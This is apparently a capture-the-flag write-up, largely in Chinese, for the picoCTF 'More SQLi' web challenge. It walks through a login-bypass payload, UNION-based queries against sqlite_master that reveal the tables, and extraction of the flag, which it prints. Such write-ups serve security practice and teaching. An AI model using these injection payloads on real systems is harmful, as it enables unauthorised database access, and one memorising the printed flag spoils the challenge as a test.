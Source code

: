 ```yaml
---
title: PicoCTF - More SQLi
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - More SQLi

## Background
* [Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)
* Hint SQLiLite

## Recon
先隨便輸入發現他很貼心有給完整的payload，發現他是先檢查password，在沒有任何防護的情況下，直接用最經典的payload就可了
Account: Any
Password: `' or '1'='1' -- #`
![](https://hackmd.io/_uploads/rJXd-oLd3.png)

---
![](https://hackmd.io/_uploads/Bki0WoLd3.png)

## Exploit - SQLi(Union Selection)
現在的目標是flag應該是藏在別的table，所以先找甚麼table
1. 找table
透過[Kaibro的cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)，SQLite的爆破payload是`SELECT name FROM sqlite_master WHERE type='table'`，而目前我們可以用union based的方式搜尋，先觀察搜尋`Algiers`的搜尋column有三個，第一個column是chr，第二個column是chr，第三個是int，所以在用union select的時候要遵守<font color="FF0000">**查詢數量一樣、每個欄位的型態一樣**</font>
Payload: `Algiers' union SELECT sql,sql,1 FROM sqlite_master WHERE type='table'; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/rk9G4oLO2.png)
    :::
2. Find Flag - Union based
目前發現有兩個table比較可疑
    * CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
    * CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
    
    可以直接用前面同樣的方式找flag，觀察這個table只有兩個column，且一個column的type是int，另外一個是text，而第三個column就隨便填
    Payload: `Algiers' union SELECT id,flag,1 FROM more_table; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/ryonEoIdn.png)
    :::
    Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}`

## Reference
[ picoCTF 2023 More SQLi ](https://youtu.be/W1EjP6OFpUQ)
[Kaibro - SQLi](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
[Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)